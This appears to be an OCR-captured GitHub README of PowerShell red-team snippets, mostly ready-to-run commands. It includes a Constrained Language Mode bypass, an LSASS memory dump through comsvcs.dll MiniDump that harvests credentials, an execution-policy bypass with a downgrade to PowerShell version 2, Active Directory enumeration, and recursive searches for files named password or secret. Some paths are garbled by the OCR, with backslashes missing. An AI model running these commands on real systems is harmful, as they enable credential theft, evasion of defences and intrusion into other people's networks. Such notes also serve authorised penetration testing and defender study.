 # Powershell_stuff

#Check if Full or Constrained Language Mode is in place.   
$ExecutionContext.SessionState.LanguageMode

#Set Proxy Settings Manually in Powershell (enter in Creds)

	$Wcl=New-Object System.Net.WebClient   
	$Creds=Get-Credential   
	$Wcl.Proxy.Credentials=$Creds   
	Invoke-WebRequest http://www.google.co.uk   

If you get a 200 back you're all good.

CLM Bypass
		#Path to Powershell
		$CMDLine = "$PSHOMEpowershell.exe"

	#Getting existing env vars
	[String[]] $EnvVarsExceptTemp = Get-ChildItem Env:* -Exclude "TEMP","TMP"| % { "$($_.Name)=$($_.Value)" }

	#Custom TEMP and TMP
	$TEMPBypassPath = "Temp=C:windowstemp"
	$TMPBypassPath = "TMP=C:windowstemp"

	#Add the to the list of vars
	$EnvVarsExceptTemp += $TEMPBypassPath
	$EnvVarsExceptTemp += $TMPBypassPath

	#Define the start params
	$StartParamProperties = @{ EnvironmentVariables = $EnvVarsExceptTemp }
	$StartParams = New-CimInstance -ClassName Win32_ProcessStartup -ClientOnly -Property $StartParamProperties

	#Start a new powershell using the new params
	Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{
	CommandLine = $CMDLine
	ProcessStartupInformation = $StartParams
	}

	#lsass dump
	$processes = Get-Process
	$location = Get-Location


$dumpid = foreach ($process in $processes){if ($process.ProcessName -eq "lsass"){$process.id}}
		Write-Host "Found l s a s s process with ID $dumpid - starting dump with rundll32"
		Write-Host "Dumpfile goes to Get-Location\$env:COMPUTERNAME.log"
		rundll32 C:\Windows\System32\comsvcs.dll, MiniDump $dumpid $location\$env:COMPUTERNAME.log full | Out-Null
		Compress-Archive -Path $location\$env:COMPUTERNAME.log -DestinationPath $location\$env:COMPUTERNAME.zip -CompressionLevel NoCompression

#ENABLE TLS1.2 if you receive a message Regarding an ISSUE with TLS   
[Net.ServicePointManager]::SecurityProtocol = [Net.ServicePointManager]::SecurityProtocol -bor [Net.SecurityProtocolType]::Tls12

Execute Powershell with Exec bypass and stay in Version 2

powershell.exe -Version 2 -ExecutionPolicy bypass

#Powershell Specific Tooling

# PowerSharpPack
PowerSharpPack -SharpShares -Command "--shares"

#Domain Enumeration

#Group Membership  
([ADSISEARCHER]"samaccountname=$('ENTERUSERNAME')").Findone().Properties.memberof -replace '^CN=([^,]+).+$','$1' | sort-object


#Aliases

dir = Get-ChildItem


#Current Domain Password Policy
$domain = [adsi](“WinNT://DOMAIN.local”)
$domain.Properties.Keys | Foreach {
  @{$_ = [string]$domain.Properties.Item($_) }
}



#Search for any file with the extension (.doc, .xls, .pdf) export output to 'files.csv'

get-childitem .\ -rec -ErrorAction SilentlyContinue -include @(‘*.doc*’,’*.xls*’,’*.pdf’)|where{!$_.PSIsContainer}|select-object FullName,@{Name=’Owner’;Expression={(Get-Acl $_.FullName).Owner}},LastAccessTime,LastWriteTime,Length|export-csv -notypeinformation -path files.csv


#Or if you wanted to do several wildcard searches for sensitive files (replace the terms as necessary):

get-childitem .\ -rec -ErrorAction SilentlyContinue -include @(‘*password*’,’*sensitive*’,’*secret*’)|where{!$_.PSIsContainer}|select-object FullName,@{Name=’Owner’;Expression={(Get-Acl $_.FullName).Owner}},LastAccessTime,LastWriteTime,Length|export-csv -notypeinformation -path files.csv

